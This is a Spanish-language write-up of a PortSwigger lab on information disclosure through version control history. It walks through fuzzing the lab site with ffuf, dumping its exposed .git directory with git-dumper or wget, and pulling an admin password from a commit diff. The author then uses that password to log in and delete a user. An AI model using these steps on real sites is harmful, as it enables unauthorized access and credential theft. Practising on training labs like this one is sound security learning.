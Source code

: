 ```yaml
---
title: "Information disclosure in version control history"
description: "Laboratorio de Portswigger sobre Information Disclosure"
date: 2024-12-03 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Information Disclosure
tags:
  - Portswigger Labs
  - Information Disclosure
  - Information disclosure in version control history
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` `revela` información `sensible` a través de su `historial de control de versiones`. Para `resolver` el laboratorio, `obtén` la `contraseña` del `usuario administrador`, luego `inicia sesión` y `elimina` al `usuario` `carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Information-Disclosure-Lab-5/image_1.png)

`Fuzzeamos` la `web`, además de hacerlo desde `Burpsuite` podemos usar herramientas como `fuff` desde `consola`

```
# ffuf -c -t 10 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 77ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 132ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 184ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 171ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 199ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 58ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 52ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
```

Con `git-dumper` [https://github.com/arthaud/git-dumper.git](https://github.com/arthaud/git-dumper.git) podemos `descargarnos` todo el `.git/` y si queremos una alternativa con `interfaz gráfica` podemos usar `git-cola` [https://github.com/git-cola/git-cola.git](https://github.com/git-cola/git-cola.git)

```
# git-dumper https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/ project
```

Otra alternativa sería `descargarnos` todo usando `wget`

```
# wget -r https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/
```

`Listamos` los `logs`

```
# git log                                          
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 8ce2169ffe2532afaddebd8b63c8cedad993e662
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

`Vemos` el `último commit` y `obtenemos` una `contraseña`

```
# git show 0de9db705d356593125a122dd61dc2c5b4c059d6
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 26742e2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=z9xi7od0a1z0ar5c36jz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Nos `logueamos` con las credenciales `administrator:z9xi7od0a1z0ar5c36jz`

![](/assets/img/Information-Disclosure-Lab-5/image_2.png)

Pulsamos sobre `Admin panel` y le `borramos` la `cuenta` al usuario `carlos`

![](/assets/img/Information-Disclosure-Lab-5/image_3.png)
